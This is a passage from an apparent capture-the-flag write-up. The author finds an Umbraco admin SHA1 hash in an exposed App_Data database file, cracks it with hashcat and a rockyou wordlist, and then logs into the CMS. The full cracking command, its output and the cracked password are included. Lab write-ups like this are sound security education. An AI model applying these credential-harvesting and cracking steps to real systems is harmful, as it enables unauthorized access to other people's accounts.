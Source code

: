 As the name suggests, we find the website files.

Let's search for Umbraco credentials in the App_Data folder.

![](4.png)

On `Umbraco.sdf` file we manage to find the admin hash.

## Hashcat

The hash found in a SHA1, so using hashcat mode 100, let's crack the hash.

```terminal
$ hashcat -m 100 admin.hash /usr/share/wordlists/rockyou.txt               
hashcat (v6.1.1) starting...
                                       
OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
=============================================================================================================================
* Device #1: pthread-Intel(R) Core(TM) i5 CPU       M 520  @ 2.40GHz, 2727/2791 MB (1024 MB allocatable), 4MCU
                                           
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

b8be16afba8c314ad33d812f22a04991b90e2aaa:baconandcheese
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: b8be16afba8c314ad33d812f22a04991b90e2aaa
Time.Started.....: Wed Apr  5 14:54:49 2023 (7 secs)
Time.Estimated...: Wed Apr  5 14:54:56 2023 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1507.7 kH/s (0.91ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests
Progress.........: 9826304/14344385 (68.50%)
Rejected.........: 0/9826304 (0.00%)
Restore.Point....: 9822208/14344385 (68.47%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: badboi56 -> bacano1106

```

We got the admin's passwords, now let's go back the Umbraco and log in.

![](5.png)
